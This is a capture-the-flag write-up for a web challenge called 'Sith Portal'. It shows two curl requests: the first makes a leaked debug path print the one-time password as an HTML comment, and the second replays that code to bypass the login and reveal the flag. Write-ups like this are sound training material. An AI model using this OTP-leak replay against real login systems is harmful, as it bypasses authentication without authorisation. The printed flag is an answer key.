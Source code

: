 # Sith Portal

> We have found the login page for the Sith.
> 
> If we can get administrative access to this web server, the information we could gain would be invaluable.
> 
> Our reconnaissance team was able to get some information that may be of use to you:
> 
> 1. The email addresses associated with the Sith's accounts use the domain: @galacticempire.com
> 
> 2. Since there are not many Siths, the length of their email is pretty sort -only 3 characters
> 
>     ex: 
>     aaa@galacticempire.com
> 
> 3. Some of the code used to build the web server was recovered. We have attached the zip file.
> 
> Link to Sith's Portal

For this one, you can notice that in one of the leaked files there's a path that will print the OTP as a comment, so crafting a curl command that would do this:

```
$ curl -X POST -d 'uname=admin&psw=test&otp=1&e=aaa@galacticempire.com&id=1' -H 'Content-Type: application/x-www-form-urlencoded' https://challenges.silicon-ctf.party/web500/index.php
<!--  authorization_code: 15c6ff07e2 --><h6>Incorrect OTP</h6>
```

Then, using the returned OTP, just feeding that back into the curl request:

```
$ curl -X POST -d 'uname=admin&psw=test&otp=15c6ff07e2&e=aaa@galacticempire.com&id=1' -H 'Content-Type: application/x-www-form-urlencoded' https://challenges.silicon-ctf.party/web500/index.php
<p> "silicon{Type_Juggling_f0r_th3_w1n}" </p> 
```

And we have our flag.

```
silicon{Type_Juggling_f0r_th3_w1n}
```